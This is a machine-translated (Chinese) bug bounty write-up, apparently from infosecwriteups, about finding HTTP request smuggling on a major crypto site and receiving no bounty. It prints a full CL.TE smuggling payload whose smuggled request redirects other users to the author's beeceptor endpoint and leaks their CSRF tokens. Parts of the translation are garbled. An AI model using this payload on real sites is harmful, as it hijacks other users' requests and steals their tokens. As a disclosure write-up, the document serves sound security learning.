

# 请求在主要秘密地点走私——失望之路

> 原文：<https://infosecwriteups.com/request-smuggling-in-major-crypto-site-road-to-disappointment-a71a461f3b1f?source=collection_archive---------1----------------------->

让我自我介绍一下，因为这是我第一次写作。首先，如果我在写作中犯了错误，我很抱歉，因为英语不是我的母语。我来自一个小国，自 1998 年以来一直在那里工作，并从那时起“监测”安全局势。我从来没有勇气宣称自己是安全专家，因为编码是我不好的一面(我认为整天坐在椅子上键入代码很无聊)，但我当时受到一些团队和专家(fluffy bunny、team teso、一些 IRC 频道等)的钦佩。我利用的第一个 bug 是我认为是 windows 服务器中的 Unicode bug，雅虎和谷歌网站上有很多 XSS，我甚至在我的学习路径中为 Winamp 编写了缓冲区溢出漏洞利用。那时候和现在大不一样。我的道路让我暂时远离了安全领域，但我从未停止。

回到现实前一阵子 a 加入了 Hackerone 平台只是为了练技术。发现一些 XXE，XSS，开放重定向，CRLF，甚至在 Twitter 网站上嵌入令牌，这给了我一个不错的赏金(谢谢 Twitter)。因为对我来说这不是一个大的挑战，所以我想尝试一些别的东西。

然后是 James Kettle (albinowax)关于 HTTP 请求走私的精彩演示。我开始阅读关于 desync 攻击的文章([https://ports wigger . net/research/http-desync-attacks-request-smighting-reborn](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn))，看了一些视频，在 portswigger academy 做了一些练习测试，觉得已经准备好和我的下一个主机碰碰运气了:)

与此同时，我收到了这个主要加密网站的邀请，并开始枚举子域，找到了一些开放的重定向和用户枚举，但所有这些都超出了范围。我决定试试 https://github.com/defparam/smuggler[埃文·库斯托迪奥](https://medium.com/u/444ff95c7157?source=post_page-----a71a461f3b1f--------------------------------) [的测试脚本，在很短的时间内，我得到了一些易受攻击的主机。](https://github.com/defparam/smuggler)

很好，但是现在是制作有效载荷的最困难的部分。许多不眠之夜尝试一切都没有成功。很多时候，我忘记取消选中更新打嗝时的内容长度或将十进制转换为十六进制，作为走私请求或结束请求的长度，如 0\r\n\r\n

最后，我在我的 beeceptor 端点被击中，我不能相信我的眼睛，代币开始下雨。有效载荷如下:

> **POST /？CB = 7309697047596003 HTTP/1.1
> Transfer-Encoding:chunked
> 主机:XXXXXX
> 用户代理:Mozilla/5.0(Windows NT 10.0；Win64x64) AppleWebKit/537.36 (KHTML，像壁虎一样)Chrome/78 . 0 . 3904 . 87 Safari/537.36
> 内容-类型:application/x-www-form-urlencoded；charset = UTF-8
> Content-Length:4
> Cookie:5d 2 af 5477d 02 a 9 df 5 f 62511 ceebb 7972d 3 BAE 8d 63 fc 14 BC 2223 e 14 bfffba 0d 4 f 7 c 96 c 6 cf 46 C3 de 33 b 3；**
> 
> **F4 \ r \ n**(→计算以下请求的字符数并将其转换为十六进制)
> **GET /xxxx？a = 2&targeturl =//oxygene . free . be ceptor . com HTTP/1.1
> Host:XXXXXX
> Connection:close
> Content-Length:50
> account Type:Real
> Authorization:Hidden
> Content-Type:application/JSON；charset=UTF-8
> 接受:application/json，text/plain，/**
> 
> **x=1
> 0\r\n\r\n**

在这个请求中，前端接受“Transfer-Encoding: chunked”并将处理第一个块 F4 或十进制 244。对于 0\r\n\r\n 它将请求转发到仅接受内容长度的后端。后端只看到 4 的请求体(Content-Length: 4，其中 **F4\r\n = 4** )并处理它，附加它的其余部分或 **GET /xxxx？a = 2&targeturl =//oxygene . free . be ceptor . com HTTP/1.1
Host:XXXXXX**(这是我之前找到的一个实际打开的重定向 url，不在范围内)到下一个请求也就是随机用户一个。用户被重定向到嵌入了 x-csrf 令牌的端点。

我立即向项目负责人报告，在做了大量解释后，问题得到了解决。不幸的是，我得到了零奖金，因为你需要提交至少一个 P1 才能进入他们的奖金水平。失望是巨大的，但正如我之前写的，我没有就此止步。